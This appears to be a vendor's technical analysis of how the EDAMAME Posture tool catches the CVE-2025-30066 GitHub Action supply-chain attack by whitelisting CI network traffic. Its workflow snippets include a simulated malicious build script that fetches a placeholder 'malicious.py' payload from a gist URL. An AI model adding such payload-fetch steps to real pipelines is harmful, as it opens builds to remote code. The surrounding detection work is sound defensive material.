 # Technical Analysis: EDAMAME Protection Against CVE-2025-30066

This document provides a detailed technical explanation of how EDAMAME Posture can detect and prevent supply chain attacks like the one described in CVE-2025-30066 (tj-actions/changed-files compromise).

## The Supply Chain Attack Vector

The attack on tj-actions/changed-files involved:

1. Compromising the maintainer's GitHub account credentials
2. Adding malicious code to a popular GitHub Action used by thousands of repositories
3. Making unauthorized network requests to gist.githubusercontent.com to fetch a second-stage payload
4. Accessing and exfiltrating sensitive repository secrets

This type of attack is particularly dangerous because:
- It uses trusted tools in the build pipeline
- It operates through normal-looking behavior (network requests)
- It can access all secrets available to the GitHub Action
- It's difficult to detect without network monitoring

## How EDAMAME Posture Detects These Attacks

EDAMAME Posture employs a "zero trust" approach to network traffic in CI/CD environments:

1. **Baseline Capture**: It first establishes a baseline of legitimate network traffic
2. **Whitelist Generation**: It converts observed traffic into a precise whitelist
3. **Continuous Monitoring**: It monitors all network traffic during builds
4. **Automatic Detection**: It flags any connections not in the whitelist
5. **Pipeline Integration**: It fails builds when violations are detected

## The Detection Process in Detail

Our [CVE-2025-30066.yml](.github/workflows/CVE-2025-30066.yml) workflow shows this protection in action:

### 1. Setup and Baseline Phase

```yaml
- name: Setup EDAMAME Posture
  run: |
    # Download and install EDAMAME Posture
    curl -LO https://github.com/edamametechnologies/edamame_posture_cli/releases/download/v0.9.21/edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    chmod +x edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    sudo mv edamame_posture-0.9.21-x86_64-unknown-linux-gnu /usr/local/bin/edamame_posture
    
    # Start EDAMAME in disconnected mode with LAN scanning and GitHub Linux whitelist
    sudo edamame_posture background-start-disconnected true github_ubuntu
```

This starts EDAMAME Posture in disconnected mode (no external service needed) with network monitoring enabled. The `github_ubuntu` parameter provides a base whitelist for standard GitHub Actions runners.

### 2. Legitimate Traffic Capture

```yaml
- name: Run legitimate build process
  run: |
    # Install dependencies
    pip install requests
    
    # Run the build script
    python build.py

- name: Create whitelist from legitimate traffic
  run: |
    # Create a custom whitelist from the observed network activity
    sudo edamame_posture create-custom-whitelists > whitelist.json
    
    # Apply the whitelist for future monitoring
    sudo edamame_posture set-custom-whitelists "$(cat whitelist.json)"
```

During this phase, EDAMAME captures all legitimate network connections that occur during the normal build process. It then creates a whitelist that includes:
- Connections to Python package repositories (PyPI)
- Standard GitHub runner communications
- Any other expected network traffic

### 3. Attack Simulation

```yaml
- name: Create malicious build script (simulating CVE-2025-30066)
  run: |
    # Create a Python script that simulates the malicious behavior from CVE-2025-30066
    cat > build_malicious.py << EOF
    import requests
    
    # Simulate the attack vector - connect to gist.githubusercontent.com
    # This is similar to what the compromised tj-actions/changed-files action did
    print("Attempting to fetch malicious payload from gist.githubusercontent.com...")
    response = requests.get("https://gist.githubusercontent.com/example/123456/raw/malicious.py")
    EOF

- name: Run build process with simulated malicious behavior
  run: |
    # Run the malicious build script
    python build_malicious.py
```

This simulates exactly what happened in the tj-actions/changed-files attack - a request to gist.githubusercontent.com that wasn't part of the legitimate traffic pattern.

### 4. Detection and Prevention

```yaml
- name: Check for whitelist violations (should detect the malicious connection)
  id: whitelist_check
  continue-on-error: true
  run: |
    # This should exit with non-zero code because the whitelist was violated
    sudo edamame_posture get-sessions
    echo "exit_code=$?" >> $GITHUB_OUTPUT

- name: Verify detection
  run: |
    if [ "${{ steps.whitelist_check.outputs.exit_code }}" != "0" ]; then
      echo "✅ SUCCESS: EDAMAME detected unauthorized connection to gist.githubusercontent.com"
    else
      echo "❌ FAILURE: EDAMAME did not detect the unauthorized connection"
      exit 1
    fi
```

When `get-sessions` is called, EDAMAME checks all network traffic against the whitelist and returns a non-zero exit code if any violations are found. This would cause a real CI/CD pipeline to fail, preventing the attack from succeeding.

The command now supports more granular control with parameters to check for different types of suspicious sessions:

```bash
# Basic usage - returns non-zero exit code if whitelist exceptions found
edamame_posture get-sessions

# Advanced usage with all control parameters
# Format: get-sessions [ZEEK_FORMAT] [LOCAL_TRAFFIC] [CHECK_WHITELIST] [CHECK_BLACKLIST] [CHECK_ANOMALOUS]
edamame_posture get-sessions false false true true true
```

With this flexibility, you can control which types of sessions should cause pipeline failures:
- `CHECK_WHITELIST` (default: true) - Exit with non-zero code for whitelist exceptions
- `CHECK_BLACKLIST` (default: true) - Exit with non-zero code for blacklisted connections
- `CHECK_ANOMALOUS` (default: false) - Exit with non-zero code for anomalous connections

## Technical Implementation

EDAMAME Posture's network monitoring relies on several components:

1. **Network Capture Engine**: Monitors all outbound connections from the CI/CD environment
2. **Whitelist Database**: Maintains patterns of allowed connections with attributes like:
   - Domain names and patterns
   - IP addresses and CIDR ranges
   - Ports and protocols
   - Request patterns
3. **Pattern Matching Logic**: Evaluates each connection against the whitelist rules

The key function in [background.rs](../src/background.rs) shows how this check is implemented:

```rust
pub fn background_get_sessions(local_traffic: bool, zeek_format: bool) -> i32 {
    // ... [code that retrieves and displays sessions]

    // Check whitelist conformance
    let whitelist_conformance = match rpc_get_whitelist_conformance(
        &EDAMAME_CA_PEM,
        &EDAMAME_CLIENT_PEM,
        &EDAMAME_CLIENT_KEY,
        &EDAMAME_TARGET,
    ) {
        Ok(conformance) => conformance,
        Err(e) => {
            eprintln!("Error getting whitelist conformance: {}", e);
            return ERROR_CODE_SERVER_ERROR;
        }
    };
    if !whitelist_conformance {
        eprintln!("Some connections failed the whitelist check");
        return ERROR_CODE_MISMATCH;
    } else {
        return 0;
    }
}
```

This returns an error code when network traffic violates the whitelist, which is then used to fail the CI/CD pipeline.

## Benefits Over Traditional Security Approaches

EDAMAME's approach offers several advantages over traditional security methods:

1. **No Signatures Needed**: Unlike antivirus or IDS systems, no prior knowledge of the attack is required
2. **Zero Configuration**: Simply capture legitimate traffic and use it to create whitelists
3. **Minimal False Positives**: By learning from actual legitimate traffic patterns
4. **Preventative, Not Just Detective**: Stops attacks before they can succeed
5. **CI/CD Integration**: Designed specifically for protecting build pipelines

By implementing this approach, organizations can prevent not just known attacks like CVE-2025-30066, but also future novel supply chain attacks that use similar network-based exfiltration methods. 